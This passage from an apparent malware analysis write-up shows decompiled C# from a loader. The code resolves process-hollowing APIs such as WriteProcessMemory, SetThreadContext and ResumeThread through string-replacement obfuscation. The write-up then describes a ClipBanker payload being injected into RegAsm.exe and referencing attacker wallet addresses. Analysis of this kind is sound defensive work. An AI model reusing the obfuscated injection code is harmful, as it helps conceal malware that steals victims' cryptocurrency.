private static readonly Class1.Delegate8 delegate8_0 = Class1.smethod_0<Class1.Delegate8>("%ll".Replace("%", "ntd"), "#ewOfSection".Replace("#", "ZwUnmapVi"));
private static readonly Class1.Delegate7 delegate7_0 = Class1.smethod_0<Class1.Delegate7>("kern!".Replace("!", "el32"), "!ssMemory".Replace("!", "ReadProce"));
private static readonly Class1.Delegate6 delegate6_0 = Class1.smethod_0<Class1.Delegate6>("kern!".Replace("!", "el32"), "WritePro@".Replace("@", "cessMemory"));
private static readonly Class1.Delegate5 delegate5_0 = Class1.smethod_0<Class1.Delegate5>("kern!".Replace("!", "el32"), "qllocEx".Replace("q", "VirtualA"));
private static readonly Class1.Delegate4 delegate4_0 = Class1.smethod_0<Class1.Delegate4>("kern!".Replace("!", "el32"), "#ontext".Replace("#", "GetThreadC"));
private static readonly Class1.Delegate2 delegate2_0 = Class1.smethod_0<Class1.Delegate2>("kern!".Replace("!", "el32"), "+adContext".Replace("+", "SetThre"));
private static readonly Class1.Delegate1 delegate1_0 = Class1.smethod_0<Class1.Delegate1>("kern!".Replace("!", "el32"), "Wow64Set%".Replace("%", "ThreadContext"));
private static readonly Class1.Delegate0 delegate0_0 = Class1.smethod_0<Class1.Delegate0>("kern!".Replace("!", "el32"), "@Thread".Replace("@", "Resume"));
```

Following this, we can see that 'LAbWJK' - our 2nd executable - is being injected into RegAsm.exe

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/11a435b8-b82e-4d19-b4a0-7f91dcea8088)

The 2nd executable is our main payload, which is ClipBanker Malware.

Within the binary there are references to the attacker's wallet addresses:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/3313d627-d9db-4b98-b3b2-0be9cfac69bf)



